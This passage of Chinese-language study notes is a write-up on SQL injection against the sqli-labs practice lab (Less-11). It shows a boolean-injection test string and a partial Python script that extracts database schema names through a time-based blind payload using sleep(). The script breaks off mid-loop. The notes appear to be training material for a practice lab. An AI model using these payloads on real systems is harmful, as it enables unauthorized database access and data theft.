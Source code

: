 ![局部截取_20250515_211409](./img/局部截取_20250515_211409.png)

> [!tip]
>
> 注意字符必须为英文字符，还有就是报错注入字符的长度为32



### 布尔注入

这个使用`dumb’ and 1 #` 就能知道能否使用布尔注入了

脚本编写

```python
## 只写一个数据库获取
import requests
import re
import string
import time
ans = ''
i = 1
vis = 0
while True:
    print("*"*15,i,"*"*15)
    max = 128
    min = 32
    while max != min:
        mid = (max+min)//2  # 记住，向下整除才可以实现后面的退出判断
        url = "http://10.10.128.147/sql_labs/sql/Less-11/"
        data = {
            "uname":
            f"dumb' and if(ord(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))>{mid},sleep(3),1) #",
            "passwd":
            "admin",
            "submit":
            "submit"
        }

        start_time = time.time()
        print("[*]",data["uname"])
        res = requests.post(url,data=data).text
```